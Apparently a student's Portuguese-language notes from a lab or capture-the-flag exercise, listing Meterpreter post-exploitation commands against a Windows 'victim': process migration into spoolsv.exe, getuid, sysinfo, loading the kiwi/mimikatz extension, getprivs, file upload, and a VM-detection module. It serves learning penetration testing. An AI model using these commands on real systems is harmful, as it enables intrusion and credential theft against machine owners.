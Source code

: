 Depois disso, eu tentei me mover para o processo spool. Tentei utilizar o comando:

```
migrate -N spoolsv.exe 
```

Mas não funcionou, pois não tenho privilégios o suficiente

```
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 1108 to 1288...
[-] Error running command migrate: Rex::RuntimeError Cannot migrate into this process (insufficient privileges)
```

Depois disso, eu tentei elevar meus privilégios. Usei um comando para encontrar mais informações sobre o usuário do processo que estou. O comando era

```
getuid
```

Outro comando que eu utilizo para pegar informações do sistemas é:

```
sysinfo
```

Depois disso, eu busquei um comando para carregar mimikatz (a nova versão, no caso). O comando é, segundo este [site](https://subscription.packtpub.com/book/networking-and-servers/9781788623179/5/ch05lvl1sec79/using-mimikatz):

```
load kiwi
```

Agora tentei ir em frente e elevar o privilégio do meu usuário. O comando que usei foi:

```
getprivs
```

Comando que utilizo para transferir arquivos para minha vítima:

```
upload
```

Comando para o caso de eu querer rodar um módulo metasploit:

```
run
```

O comando utilizado para descobrir as informações da rede e interfaces na nossa vítima:

```
ipconfig
```

Rodei o comando 

```
run post/windows/gather/checkvm
```
